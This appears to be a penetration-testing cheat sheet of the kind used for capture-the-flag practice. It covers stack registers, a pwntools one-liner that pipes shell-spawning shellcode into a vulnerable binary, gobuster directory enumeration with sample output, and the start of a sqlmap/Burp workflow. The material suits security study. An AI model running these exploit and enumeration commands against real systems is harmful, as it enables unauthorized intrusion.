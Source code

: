 There are a bunch of registers present in the memory amongst which we shall only be concerned about EIP, EBP, ESP.
EBP: Stack pointer which points to the base of the stack.
ESP: Stack pointer which points to the top of the stack.
EIP: Contains the address of the next instruction to be executed.
![image](https://user-images.githubusercontent.com/44027114/136861198-f3c8811a-08c5-4735-9e8c-d3757d4438d8.png)

Using the EIP to set return to a custom address containing our custom shellcode.
![image](https://user-images.githubusercontent.com/44027114/136861270-41a88516-20d7-4d41-84e0-b86bb6af8b54.png)

To generate shellcode quickly, we can use python `pwn` library.
```
> $ python -c "import pwn;print(pwn.asm(pwn.shellcraft.linux.sh))
```

```
> $ (python -c "import pwn;print(pwn.asm(pwn.shellcraft.linux.sh()))" ;cat) | ./vuln
```

### Gobuster

Normal Enumeration.

```
> $ gobuster dir -u http://<IP_ADDRESS> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 

```

With Cookie (Useful to directory traversal when cookie is needed).
```
> $ gobuster dir -u http://<IP_ADDRESS> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php -c PHPSESSID=<COOKIE_VALUE>
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://<IP_ADDRESS>
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] Cookies:        <COOKIE_VALUE>
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php
[+] Timeout:        10s
===============================================================
2020/04/19 01:43:01 Starting gobuster
===============================================================
/home.php (Status: 302)
/index.php (Status: 200)
```

### SQLMAP 
Redirect the HTTP Request to Burpsuite and we can see the request like this.
```
POST / HTTP/1.1
Host: <IP_ADDRESS>
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://<IP_ADDRESS>/
Content-Type: application/x-www-form-urlencoded
Content-Length: 11
Connection: close
Upgrade-Insecure-Requests: 1
```